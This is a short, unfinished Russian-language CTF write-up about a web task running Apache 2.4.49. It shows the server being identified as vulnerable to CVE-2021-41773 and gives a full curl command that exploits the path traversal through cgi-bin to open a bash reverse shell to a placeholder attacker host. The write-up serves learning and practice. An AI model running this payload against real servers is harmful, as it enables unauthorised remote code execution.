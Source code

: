 # Middle-aged daemon

_http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080_

### Solution

Делаем GET запрос на ссылку из условия и в ответе ищем заголовок Server, по подсказке из названия таска. _Server: Apache/2.4.49 (Ubuntu)_.
Ищем в интернете уязвимости веб-сервера Apache версии 2.4.49 и находим CVE-2021-41773.
_https://www.exploit-db.com/exploits/50383_
 
С помощью утилиты curl используем данную уязвимость, чтобы прокинуть ревёрс-шелл.

```
curl "http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash" -d 'echo;bash -i >& /dev/tcp/atacker_ip/port 0>&1'
```

Находим флаг в директории *дописать* и читаем его с помощью утилиты cat.

`
Flag: MSKCTF{TO_BE_REDACTED}
`
